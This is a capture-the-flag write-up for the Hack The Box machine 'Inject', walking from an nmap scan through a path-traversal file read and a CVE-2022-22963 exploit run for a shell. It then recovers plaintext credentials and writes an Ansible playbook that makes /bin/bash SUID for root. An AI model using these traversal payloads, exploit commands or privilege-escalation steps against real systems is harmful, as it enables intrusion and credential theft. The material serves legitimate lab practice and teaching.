




HTB Inject
Table of Contents
Inject
- Diffculty: easy
- IP: 10.10.11.204
Overall easy box make sure to do enumerate the webapp well.
Nmap
As always start any machine off with nmap
nmap -oA scans/10.10.11.204 -A 10.10.11.204
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-05 14:30 EDT Nmap scan report for 10.10.11.204 Host is up (0.040s latency). Not shown: 998 closed tcp ports (reset) PORT STATE SERVICE VERSION 22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0) | ssh-hostkey: | 3072 caf10c515a596277f0a80c5c7c8ddaf8 (RSA) | 256 d51c81c97b076b1cc1b429254b52219f (ECDSA) |_ 256 db1d8ceb9472b0d3ed44b96c93a7f91d (ED25519) 8080/tcp open nagios-nsca Nagios NSCA |_http-title: Home No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ). TCP/IP fingerprint: OS:SCAN(V=7.93%E=4%D=5/5%OT=22%CT=1%CU=30765%PV=Y%DS=2%DC=T%G=Y%TM=64554B5B OS:%P=x86_64-pc-linux-gnu)SEQ(SP=106%GCD=1%ISR=107%TI=Z%CI=Z%II=I%TS=A)OPS( OS:O1=M53CST11NW7%O2=M53CST11NW7%O3=M53CNNT11NW7%O4=M53CST11NW7%O5=M53CST11 OS:NW7%O6=M53CST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN( OS:R=Y%DF=Y%T=40%W=FAF0%O=M53CNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS OS:%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R= OS:Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F= OS:R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T OS:=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD= OS:S) Network Distance: 2 hops Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel TRACEROUTE (using port 1723/tcp) HOP RTT ADDRESS 1 43.52 ms 10.10.14.1 2 36.60 ms 10.10.11.204 OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ . Nmap done: 1 IP address (1 host up) scanned in 21.17 seconds
Port open:
- 8080 http
- 22 ssh
Inspecting the website
Going to http://10.10.11.204:8080 we can there is a webapp

Going to the signup and login pages are not currently working

going to /upload works.
it is a file upload page, lets upload an image and see what happens

When you upload a image you are given back a link to view your image. it keeps the same filename as the one you uploaded.
url: http://10.10.11.204:8080/show_image?img=default.png
My gut was right, that was a LFI on the img varible.

LFI on the website
now with the lfi lets try and abuse it to find configuration files.
Check if the server is nginx
GET http://10.10.11.204:8080/show_image?img=../../../../../../etc/nginx/nginx.conf HTTP/1.1 Host: 10.10.11.204:8080 User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/112.0 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8 Accept-Language: en-US,en;q=0.5 Connection: keep-alive Upgrade-Insecure-Requests: 1 Sec-Fetch-Dest: document Sec-Fetch-Mode: navigate Sec-Fetch-Site: none Sec-Fetch-User: ?1 Content-Length: 0
Confirmed!
user www-data;
worker_processes auto;
pid /run/nginx.pid;
include /etc/nginx/modules-enabled/*.conf;
events {
worker_connections 768;
# multi_accept on;
}
http {
##
# Basic Settings
##
sendfile on;
tcp_nopush on;
tcp_nodelay on;
keepalive_timeout 65;
types_hash_max_size 2048;
# server_tokens off;
# server_names_hash_bucket_size 64;
# server_name_in_redirect off;
include /etc/nginx/mime.types;
default_type application/octet-stream;
##
# SSL Settings
##
ssl_protocols TLSv1 TLSv1.1 TLSv1.2 TLSv1.3; # Dropping SSLv3, ref: POODLE
ssl_prefer_server_ciphers on;
##
# Logging Settings
##
access_log /var/log/nginx/access.log;
error_log /var/log/nginx/error.log;
##
# Gzip Settings
##
gzip on;
# gzip_vary on;
# gzip_proxied any;
# gzip_comp_level 6;
# gzip_buffers 16 8k;
# gzip_http_version 1.1;
# gzip_types text/plain text/css application/json application/javascript text/xml application/xml application/xml+rss text/javascript;
##
# Virtual Host Configs
##
include /etc/nginx/conf.d/*.conf;
include /etc/nginx/sites-enabled/*;
}
#mail {
# # See sample authentication script at:
# # http://wiki.nginx.org/ImapAuthenticateWithApachePhpScript
#
# # auth_http localhost/auth.php;
# # pop3_capabilities "TOP" "USER";
# # imap_capabilities "IMAP4rev1" "UIDPLUS";
#
# server {
# listen localhost:110;
# protocol pop3;
# proxy on;
# }
#
# server {
# listen localhost:143;
# protocol imap;
# proxy on;
# }
#}
Lets get the default config.
GET http://10.10.11.204:8080/show_image?img=../../../../../../etc/nginx/sites-enabled/default HTTP/1.1 Host: 10.10.11.204:8080 User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/112.0 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8 Accept-Language: en-US,en;q=0.5 Connection: keep-alive Upgrade-Insecure-Requests: 1 Sec-Fetch-Dest: document Sec-Fetch-Mode: navigate Sec-Fetch-Site: none Sec-Fetch-User: ?1 Content-Length: 0
##
# You should look at the following URL's in order to grasp a solid understanding
# of Nginx configuration files in order to fully unleash the power of Nginx.
# https://www.nginx.com/resources/wiki/start/
# https://www.nginx.com/resources/wiki/start/topics/tutorials/config_pitfalls/
# https://wiki.debian.org/Nginx/DirectoryStructure
#
# In most cases, administrators will remove this file from sites-enabled/ and
# leave it as reference inside of sites-available where it will continue to be
# updated by the nginx packaging team.
#
# This file will automatically load configuration files provided by other
# applications, such as Drupal or Wordpress. These applications will be made
# available underneath a path with that package name, such as /drupal8.
#
# Please see /usr/share/doc/nginx-doc/examples/ for more detailed examples.
##
# Default server configuration
#
server {
listen 80 default_server;
listen [::]:80 default_server;
# SSL configuration
#
# listen 443 ssl default_server;
# listen [::]:443 ssl default_server;
#
# Note: You should disable gzip for SSL traffic.
# See: https://bugs.debian.org/773332
#
# Read up on ssl_ciphers to ensure a secure configuration.
# See: https://bugs.debian.org/765782
#
# Self signed certs generated by the ssl-cert package
# Don't use them in a production server!
#
# include snippets/snakeoil.conf;
root /var/www/html;
# Add index.php to the list if you are using PHP
index index.html index.htm index.nginx-debian.html;
server_name _;
location / {
# First attempt to serve request as file, then
# as directory, then fall back to displaying a 404.
try_files $uri $uri/ =404;
}
# pass PHP scripts to FastCGI server
#
#location ~ \.php$ {
# include snippets/fastcgi-php.conf;
#
# # With php-fpm (or other unix sockets):
# fastcgi_pass unix:/var/run/php/php7.4-fpm.sock;
# # With php-cgi (or other tcp sockets):
# fastcgi_pass 127.0.0.1:9000;
#}
# deny access to .htaccess files, if Apache's document root
# concurs with nginx's one
#
#location ~ /\.ht {
# deny all;
#}
}
# Virtual Host configuration for example.com
#
# You can move that to a different file under sites-available/ and symlink that
# to sites-enabled/ to enable it.
#
#server {
# listen 80;
# listen [::]:80;
#
# server_name example.com;
#
# root /var/www/example.com;
# index index.html;
#
# location / {
# try_files $uri $uri/ =404;
# }
#}
webroot is at /var/www/html which is the default location.
So lets look at the LFI more to get to the webroot.
../../../../../../etc/nginx/sites-enabled/default
Lets insert what we know
/var/www/html/../../../
So from the upload dir we are 3 levels deep.
so when fuzzing we need to give it ~../../../
Lets fuzz for webapp default files there
I asked chat-gpt to make a list of default files a webapp would contain
index.php config.php functions.php header.php footer.php style.css script.js .htaccess index.jsp web.xml servlet.java pom.xml applicationContext.xml dispatcher-servlet.xml log4j.properties manage.py settings.py urls.py views.py models.py forms.py admin.py requirements.txt Gemfile config.ru application.rb routes.rb controllers/application_controller.rb models/application_record.rb views/layouts/application.html.erb db/schema.rb app.js package.json routes/index.js views/layout.ejs public/style.css public/script.js .env
Fuzzing i only found one file, that was pom.xml indicating it was a spring app.
GET http://10.10.11.204:8080/show_image?img=../../../pom.xml HTTP/1.1 Host: 10.10.11.204:8080 User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/112.0 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8 Accept-Language: en-US,en;q=0.5 Connection: keep-alive Upgrade-Insecure-Requests: 1 Sec-Fetch-Dest: document Sec-Fetch-Mode: navigate Sec-Fetch-Site: none Sec-Fetch-User: ?1 Content-Length: 0
<?xml version="1.0" encoding="UTF-8"?> <project xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd"> <modelVersion>4.0.0</modelVersion> <parent> <groupId>org.springframework.boot</groupId> <artifactId>spring-boot-starter-parent</artifactId> <version>2.6.5</version> <relativePath/> <!-- lookup parent from repository --> </parent> <groupId>com.example</groupId> <artifactId>WebApp</artifactId> <version>0.0.1-SNAPSHOT</version> <name>WebApp</name> <description>Demo project for Spring Boot</description> <properties> <java.version>11</java.version> </properties> <dependencies> <dependency> <groupId>com.sun.activation</groupId> <artifactId>javax.activation</artifactId> <version>1.2.0</version> </dependency> <dependency> <groupId>org.springframework.boot</groupId> <artifactId>spring-boot-starter-thymeleaf</artifactId> </dependency> <dependency> <groupId>org.springframework.boot</groupId> <artifactId>spring-boot-starter-web</artifactId> </dependency> <dependency> <groupId>org.springframework.boot</groupId> <artifactId>spring-boot-devtools</artifactId> <scope>runtime</scope> <optional>true</optional> </dependency> <dependency> <groupId>org.springframework.cloud</groupId> <artifactId>spring-cloud-function-web</artifactId> <version>3.2.2</version> </dependency> <dependency> <groupId>org.springframework.boot</groupId> <artifactId>spring-boot-starter-test</artifactId> <scope>test</scope> </dependency> <dependency> <groupId>org.webjars</groupId> <artifactId>bootstrap</artifactId> <version>5.1.3</version> </dependency> <dependency> <groupId>org.webjars</groupId> <artifactId>webjars-locator-core</artifactId> </dependency> </dependencies> <build> <plugins> <plugin> <groupId>org.springframework.boot</groupId> <artifactId>spring-boot-maven-plugin</artifactId> <version>${parent.version}</version> </plugin> </plugins> <finalName>spring-webapp</finalName> </build> </project>
Even more lazy, asked gpt to tell me everything from the pom.xml it knows about
Spring Boot parent version: 2.6.5 Java version: 11 javax.activation version: 1.2.0 spring-boot-starter-thymeleaf: version not specified, which means it uses the default version defined in the Spring Boot parent. spring-boot-starter-web: version not specified, which means it uses the default version defined in the Spring Boot parent. spring-boot-devtools: version not specified, which means it uses the default version defined in the Spring Boot parent. spring-cloud-function-web: version 3.2.2 spring-boot-starter-test: version not specified, which means it uses the default version defined in the Spring Boot parent. bootstrap: version 5.1.3 webjars-locator-core: version not specified, which means it uses the latest version available in the repository.
Out of these searchinf for spring-cloud-function-web: version 3.2.2 Shows that it is vulnerable to CVE-2022-22963.1
Using the exploit, i modifed slightly to use pwncat-cs.
python exploit.py -i 10.10.14.147 -u http://10.10.11.204:8080
You now have foothold
Foothold.
you get back a shell as a user named frank.
looking around you can find a file at ~/.m2/settings.xml which contains creds for user, which you can not use with ssh sadly.
<?xml version="1.0" encoding="UTF-8"?> <settings xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd"> <servers> <server> <id>Inject</id> <username>phil</username> <password>DocPhillovestoInject123</password> <privateKey>${user.home}/.ssh/id_dsa</privateKey> <filePermissions>660</filePermissions> <directoryPermissions>660</directoryPermissions> <configuration></configuration> </server> </servers> </settings>
- phil:DocPhillovestoInject123
privesc
running linpeas shows alot of ansible related items and that /opt/automation/ is writble to memebers of the automation group, which phil is.
running pspy64 i see that root runs ansible on all playbooks in the automation directory.2
2023/06/27 13:20:01 CMD: UID=0 PID=2559 | /bin/sh -c /usr/local/bin/ansible-parallel /opt/automation/tasks/*.yml
I choose to write a playbook that sets suid on /bin/bash
- hosts: localhost
tasks:
- name: Set setuid permission
file:
path: /bin/bash
mode: "u+s"
then after a few moments you can run bash -p to become root.
Footnotes:
Exploit i used